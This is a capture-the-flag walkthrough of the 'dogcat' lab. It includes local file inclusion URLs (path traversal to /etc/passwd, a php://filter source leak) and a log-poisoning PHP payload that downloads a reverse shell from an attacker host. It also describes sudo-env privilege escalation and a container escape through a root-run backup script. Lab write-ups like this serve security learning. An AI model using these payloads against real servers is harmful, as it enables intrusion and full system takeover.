

# dogcat

We start with the port scan using nmap

`nmap -sC -sV 10.10.1.190` 

Finds 2 open ports. SSH running on port 22 and web server on port 80.



Fuzzing the website for directories reveals a page named `flag.php` , very interesting one. We leave it there for the time being and come back for it later.


The webpage seems to be minimal with two buttons that generate an image of either a dog or a cat.


Looking at the URL, we can see the possibilities of LFI.

`http://10.10.1.190/?view=dog`

Through trial and error, we discover that the URL must contain either the keyword `cat` or `dog`—likely due to specific functionality in the backend code. When we test the following URL, we receive an error.

`http://10.10.1.190/?view=cat/../../../../../../../../etc/passwd`


The error reveals that the file name has been appended with `.php` extension. Next we try the PHP filter wrapper exploitation to get the source code for `index` .

`http://10.10.1.190/?view=php://filter/read=convert.base64-encode/cat/resource=index`


Decoding it using cyberchef reveals the mechanism implemented behind the scene. The code confirms our initial findings: URLs must include either "cat" or "dog", and the extension `.php` is automatically appended.

```php

        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

From our initial directory fuzzing, we discovered a page named `flag.php`. Let's attempt to access this page.


Decoding it gives us the first flag. 


Using our gathered information, we attempt to access the `/etc/passwd` file. To prevent the automatic extension from being added, we pass an empty extension parameter `ext=`.


Not much information was gathered from here.

After researching, we discover log poisoning as a potential attack vector. We decide to try this technique by using the User-Agent method to deliver our payload to the server. Using Burp Suite, we capture a request and modify its User-Agent header to contain our payload.

`<?php file_put_contents('shell.php',file_get_contents('http://{Attacker ip}/shell.php')); ?>`


To execute this successfully, we need to serve the reverse shell file from our local server. After sending the request, monitor for completed GET requests.


Once complete, set up netcat listener on the port configured in the script and use the browser to access `http://{machine ip}/shell.php`.


Once inside the machine we find the second flag at `/var/www/` .


Next, we run `sudo -l` to identify any commands we can exploit to obtain a root shell. 


It reveals we can execute `/usr/bin/env`  as root without password.

Searching for "env" on GTFOBins reveals the command needed to obtain a root shell.


Subsequently we find the third flag.


Hold on—there's one more flag to find. Looking at the room description, we see a mention of getting out of a container. When running the `hostname` command, we get an alphanumerical value. If this were a regular machine, it would have been named something like "dogcat" instead.


While searching through the directories for clues, we discover a `backup.sh` file in the `/opt` directory. It's backing up from `/root/container`, but no such folder exists in the root directory. This suggests it might be referring to the host machine. The backup file generated has a very recent timestamp compared to the script, which means it might be running at regular intervals. We modify the code in `backup.sh` to get a reverse shell back to our machine.


Now we have a root shell on the host machine and the final flag.


